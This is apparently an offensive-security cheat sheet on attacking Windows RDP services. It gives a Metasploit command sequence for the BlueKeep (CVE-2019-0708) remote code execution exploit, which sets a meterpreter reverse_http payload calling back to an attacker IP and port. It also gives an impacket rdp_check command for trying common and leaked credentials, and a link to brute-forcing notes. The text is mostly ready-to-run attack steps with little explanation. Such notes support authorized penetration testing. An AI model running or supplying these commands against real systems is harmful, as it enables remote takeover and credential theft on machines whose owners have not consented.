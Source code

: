 # RDP

## 01 - CVE

### 1.1 - BlueKeep RCE

TODO: Fill this info

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets

set payload windows/x64/meterpreter/reverse_http

set rdp_client_ip <fake_IP>

set rhosts <target_IP>

set lhost <attacker_IP>

set lport <attacker_PORT>

run
```

## 02 - Check Common Credentials

Check some common and leaked credentials performing a password dictionary attack against and RDP service with impacket

```
$ rdp_check.py [<domain>/]<username>@<IP>
```

## 03 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|section]] for bruteforcing RDP.

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Enumeration via Network Protocols/Remote Services/Graphical Remote Program/RDP|Active Fingerprinting: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xE - Remote Services Exploitation/Graphical Remote Program/RDP/FreeRDP|Remote Services Exploitation: RDP]]

- [Rapid7: Metasploit Framework - Bluekeep Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.md)